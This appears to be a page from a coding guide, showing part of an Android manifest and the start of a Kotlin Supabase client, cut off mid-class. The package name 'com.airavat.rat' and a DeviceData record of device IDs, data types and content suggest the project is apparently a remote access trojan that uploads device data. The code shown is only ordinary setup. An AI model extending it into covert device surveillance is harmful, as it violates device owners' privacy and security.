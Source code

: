 ```xml
    <application
        android:allowBackup="true"
        android:icon="@mipmap/ic_launcher"
        android:label="@string/app_name"
        android:theme="@style/AppTheme"
        android:networkSecurityConfig="@xml/network_security_config"
        android:usesCleartextTraffic="false">
        
        <!-- Main Activity -->
        <activity
            android:name=".MainActivity"
            android:exported="true">
            <intent-filter>
                <action android:name="android.intent.action.MAIN" />
                <category android:name="android.intent.category.LAUNCHER" />
            </intent-filter>
        </activity>
        
    </application>
</manifest>
```

## 6. Proper Supabase Client Implementation

### SupabaseClient.kt (Kotlin - Recommended)
```kotlin
package com.airavat.rat

import android.content.Context
import android.util.Log
import io.github.jan.supabase.createSupabaseClient
import io.github.jan.supabase.auth.Auth
import io.github.jan.supabase.postgrest.Postgrest
import io.github.jan.supabase.realtime.Realtime
import io.github.jan.supabase.storage.Storage
import kotlinx.coroutines.CoroutineScope
import kotlinx.coroutines.Dispatchers
import kotlinx.coroutines.launch
import kotlinx.serialization.Serializable
import kotlinx.serialization.json.JsonObject

@Serializable
data class DeviceData(
    val deviceId: String,
    val timestamp: String,
    val dataType: String,
    val content: String
)

class SupabaseClient(private val context: Context) {
    
    private val supabase = createSupabaseClient(
        supabaseUrl = context.getString(R.string.supabase_url),
        supabaseKey = context.getString(R.string.supabase_anon_key)
    ) {
        install(Auth)
        install(Postgrest)
        install(Realtime)
        install(Storage)
    }
    
    companion object {
```